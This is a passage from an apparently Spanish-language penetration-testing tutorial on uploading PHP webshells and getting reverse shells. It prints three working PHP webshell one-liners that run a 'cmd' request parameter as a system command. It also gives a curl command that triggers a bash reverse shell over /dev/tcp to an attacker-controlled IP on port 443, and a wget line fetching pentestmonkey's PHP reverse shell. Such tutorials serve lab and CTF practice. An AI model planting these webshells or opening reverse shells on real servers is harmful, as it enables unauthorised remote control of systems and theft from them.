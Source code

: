 ![image](https://user-images.githubusercontent.com/88755387/134219027-dab42baf-5b34-4afe-a320-00ebeeb3e557.png)

Tal como están las cosas, sabemos que este servidor web se ejecuta con un back-end de PHP, por lo que pasaremos directamente a la creación y carga de la shell. En la vida real, es posible que necesitemos hacer un poco más de enumeración; sin embargo, PHP es un buen lugar para comenzar independientemente.

Un webshell simple funciona tomando un parámetro y ejecutándolo como un comando del sistema. En PHP, la sintaxis sería:

```php
<?php
    echo shell_exec($_REQUEST['cmd']);
?>
```
Este código toma un parámetro GET y lo ejecuta como un comando del sistema. Luego hace eco de la salida en la pantalla. 

También existe otra maneras de hacerlo como son las dos siguientes:

```php
<?php system($_GET['cmd']); ?>
```

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

Vamos a intentar subir cualquiera de los tres códigos a ver si funciona:

![image](https://user-images.githubusercontent.com/88755387/134219919-96cc4d45-389b-4fc7-b057-d7c3847f63e1.png)

Success!

### __Getting a reverse shell from a webshell__

Hay varias formas de obtener una reverse shell desde una webshell, os voy a mostrar una el cual uso normalmente el cual funciona bastante bien:

```bash
curl 10.10.x.x/cmd.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/LOCALIP/443 0>&1"'
```

## __Reverse shells__

En esta parte voy a mencionar los tipos más comunes de reverse shells que podemos subir al servidor.

### __Pentestmonkey__

En primer lugar tenemos la mítica de pentestmonkey el cual la podemos descargar lanzando el siguiente comando:

```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
